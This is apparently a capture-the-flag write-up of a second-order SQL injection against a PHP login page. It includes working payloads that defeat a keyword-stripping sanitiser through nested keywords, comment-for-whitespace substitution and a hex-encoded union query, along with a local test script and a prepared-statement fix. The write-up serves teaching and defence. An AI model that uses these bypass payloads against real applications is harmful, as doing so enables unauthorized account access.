 2step
==============

Overview
--------
Again a server side rendered web application presented itself, just like in obxssession, but this time it only presented a login page and nothing else. If a user manages to log in with a correct email and password combination s/he would be presented with a welcome message and if that mail was `admin@root` the flag will be shown as well.

Vulnerability
-------------
During the login process this application executes two SQL queries where the first one is build by plain string concatenation and the second one is a prepared statement where the first parameter is set in the SQL string before the statement is prepared in order to set the second parameter. This first parameter is the mail column returned by the first query so one might think it is not possible to inject a malicious string since it comes from the database. But since the first query is only protected in an insecure way we can inject almost anything we want into the second one.

Exploitation
------------
To be honest with this one I was stepping in the dark for quiet a while. It didn't take me long to figure out how I can bypass the sanitiser but it took me what felt like ages to figure out what to do with this. My early discoveries where that the closing quote can be realised like that `\'`, white space can be replaced with a comment `/**/` and the replaced words can be protected by placing a word of same language inside it, eg. `UNorION -> UNION`. Then I tried a bunch of random injections to see what I could do but none of them manipulated the mail column in the result. Only after stepping through the code in my mind in reverse starting from the point where the flag gets accessed I realised that with a clever unioned query I can write into the resulting row. The next obstacle was inserting an opening and closing quote in the middle of my payload, the technique from before didn't work because the `\\` in the middle of a query would cause a syntax error. It occurred to me that I might be able to replace the quote character with its ASCII value in hexadecimal but that was not enough so I encoded the whole string in its hex value which got me the flag.  

During the process I set up a local MySql database and modified the source code of the application a little to validate my trial, error and assumptions. The values of `$in_mail` within the top lines show a summary of my path to the flag.

    <?php
    # seems like ther are 204 users

    # $in_mail = "\'/**/OorR/**/1=1/**/LIorMIT/**/1#";
    # $in_mail = "\'/**/UNorION/**/SEorLECT/**/password/**/FRorOM/**/USorERS/**/WHorERE/**/id=1#";
    # $in_mail = "\'/**/UNorION/**/SEorLECT/**/passwoorrd,passwoorrd,passwoorrd/**/FRorOM/**/users/**/WHorERE/**/id=1#";
    # $in_mail = "\'/**/UNorION/**/SEorLECT/**/0,0,0#";
    $in_mail = "\'/**/UNorION/**/SEorLECT/**/0,0x27204f52206d61696c203d202761646d696e40726f6f74272327,0#";
    # ' OR mail = 'admin@root'#

    $in_password = "unguessable";

    function graceful_death($message) {
        echo $message."\n";
        exit(1);
    }

    function sanitize($str) {
        if(preg_match('/["\s;\-\|&\(\)]/i', $str) !== 0) {
            graceful_death("Malicious characters detected");
        }
            $out = preg_replace('/union|select|where|and|or|concat|from/i', '', $str);
        $out = preg_replace("/'/", "\\'", $out);
        return $out;
    }

    function sql_execute($conn, $sql) {
        try {
            $sth = $conn->query($sql);
        } catch(PDOException $e) {
            echo $e->getTraceAsString()."\n\n";
            graceful_death($e->getMessage());
        }
        $result = $sth->fetchAll();
        return $result;
    }

    try {
        $dbh = new PDO("mysql:host=".$argv[1].";dbname=".$argv[2],
                       $argv[3], $argv[4]);
        $dbh->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
        $dbh->setAttribute(PDO::ATTR_EMULATE_PREPARES, 0);
    } catch(PDOException $e) {
        echo "could not connect to database: " . $e->getMessage();
    }

    $mail = sanitize($in_mail);
    echo "\n".$mail."\n\n";

    $password = sanitize($in_password);
    $sql = "SELECT * FROM users WHERE mail = '$mail'";
    echo $sql."\n\n";

    $usrs = sql_execute($dbh, $sql);
    echo var_dump($usrs);

    if(count($usrs) < 1) {
        graceful_death("Mail not found");
    } elseif(count($usrs) > 1) {
        graceful_death("Multiple users returned");
    } else {
        $sql = "SELECT mail FROM users WHERE mail = '" . $usrs[0]['mail'] . "' AND password = :password";
        echo "\n".$sql."\n\n";
        $sth = $dbh->prepare($sql);
        if(!$sth) graceful_death("empty");
        $sth->bindValue(':password', $password);
        echo "\n".var_dump($sth)."\n\n";
        $result = $sth->execute();
        if(false === $result) graceful_death();
        $result = $sth->fetchAll();
        echo "\n".var_dump($result)."\n";
        if(count($result) === 1) {
            graceful_death("Logged in");
        } else {
            graceful_death("Wrong password");
        }
    }
    ?>

Solution
--------
Don't try to sanitize user input which forms part of a SQL query, it's next to impossible to catch all the forms of malicious input. Use prepared statement instead! ... and use them everywhere, not just where you expect user input.  
To be specific I would replace the following lines.
    
	- $usrs = sql_execute($dbh, "SELECT * FROM users WHERE mail = '$mail'");
    + $sth = $dbh->prepare("SELECT * FROM users WHERE mail = :mail");
    + $sth->bindValue(':mail', $mail);
    + $usrs = $sth->execute();
    + $usrs = $sth->fetchAll();


	- $sql = "SELECT mail FROM users WHERE mail = '" . $usrs[0]['mail'] . "' AND password = :password";
	+ $sql = "SELECT mail FROM users WHERE mail = :mail AND password = :password";

	+ $sth->bindValue(':mail', $usrs[0]['mail']);
